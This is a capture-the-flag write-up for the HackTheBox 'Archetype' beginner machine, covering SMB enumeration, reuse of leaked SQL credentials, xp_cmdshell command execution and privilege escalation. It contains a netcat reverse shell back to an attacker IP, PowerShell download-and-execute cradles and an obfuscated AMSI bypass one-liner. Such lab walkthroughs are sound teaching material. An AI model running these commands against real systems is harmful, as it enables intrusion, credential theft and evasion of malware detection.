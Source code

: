 # HTB - Starting points
## Archetype
Windows machine, beginner level

![track_done](track_done.PNG)


### Initial Access 
First of all, after creating instance, let's scan open ports by using nmap:
```
nmap -n  -sV <ip>
```
![Nmap results](nmap-scan.PNG)

As we can see, the machine have opened ports on 445, 139 (Windows SMB) and 1433 for SQL Server.
Let's try list and access to directories (```-L``` flag) as anonymous user (```-N``` flag).
```
smbclient -N -L \\\\<ip>\\
```
![SMB check](samba-chck.PNG)
```
smbclient -N \\\\<ip>\\backup
```
![SMB backup folder](samba-bckp.PNG)

Checking backups folder give us information about interesting file `prod.dtsConfig`. Let's download it and check what's inside - use `get` inside `smb>`.

>A DTSCONFIG file is an XML configuration file used to apply property values to SQL Server Integration Services (SSIS) packages.

![Dst file](dstbackp.PNG)

We obtained plaintext user and password for SQL server:

```Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;```

We can try to login to SQL server with obtained credentials.
I found useful link from [hacktricks.xyz](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#mssqlclient-py).
Used ```mssqlclient.py``` script from [Impacket repository](https://github.com/SecureAuthCorp/impacket) to gain access.

![Impacket](impacket.PNG)

```
mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth     
```

![mssql](mssql.PNG)

With that, we can try to check if we have the highest ```sysadmin``` privileges. 
```
SELECT IS_SRVROLEMEMBER ('sysadmin')
```
If we have in return ```1``` response, we have the access to sysadmin.
In SQL with the highest privileges we can set up remote code execution via SQL service (```xp_cmdshell```).
We need to enable it and reconfigure.

![sql_rce](sql_rce.PNG)

As we can see our SQL service also running in archetype\sql_svc user contex, so we need to obtain access to normal user.

Let's try to drop shell into user context.

**UPDATE** - I switched to SMB share, beacuse of AMSI bypassing issue.

Open our SMB server with kali built-in Windows binaries, accessible for sql_svc user only.

![binaries](smb_binaries.PNG)

```
sudo impacket-smbserver tacola /usr/share/windows-resources/binaries/ -smb2support -username sql_svc -password M3g4c0rp123
```

Then run a listener to catch incoming connections.
```
nc -lvnp 4444
```
We will use ```nc.exe``` (Netcat).
In ```msqlclient.py``` window copy and execute nc binary from unprotected directory (create our directory, whenever you can)
```
xp_cmdshell "mkdir c:\tmp\tacola"
xp_cmdshell "copy \\10.10.15.64\tacola\nc.exe c:\tmp\tacola\"
xp_cmdshell "c:\tmp\tacola\nc.exe 10.10.15.64 4444 -e cmd.exe"
```

You should see an open connection in your nc listener tab:

![r_shell_user](r_shell_user.PNG)

Yay! We have access to cmd in user context, so we can try to find first flag.
Let's check user desktop.

![user_flag](user_flag.PNG)

### Privilege Escalation

First thing, which is worth always to check are used commands history for Powershell/CMD.
- For CMD
```
doskey /history
```
- For Powershell - in Win10
```
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

![recon](recon_commands.PNG)

We obtained admin password in plaintext!

```net.exe``` command mapped backup folder with admin credentials, so we can use ```psexec.py``` [from Impacket](https://www.infosecmatter.com/rce-on-windows-from-linux-part-1-impacket/) to obtain privileged shell.

```
psexec.py administrator@10.10.10.27
```

![root](root.PNG)

That's it. Let's find flag...

![root_flag](root_flag.PNG)

### Unused useful stuff, discovered in challenge solving time

Useful [website](https://www.revshells.com/) to create any reverse shell.

Open HTTP server
```
python3 -m http.server 80
```


Download shell from HTTP server via ```xp_cmdshell``` by using Powershell:
```
xp_cmdshell "powershell Invoke-WebRequest -Uri "http://10.10.15.147/exploit.exe" -OutFile exploit.exe;"
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.15.64/shell.ps1\");"
```


If you have a connection issue to your shell, modify firewall rules.
```
ufw allow from 10.10.10.27 proto tcp to any port 4444
```

[Bypassing AMSI](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/) malicious powershell detection.

```
xp_cmdshell "powershell [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)"
```
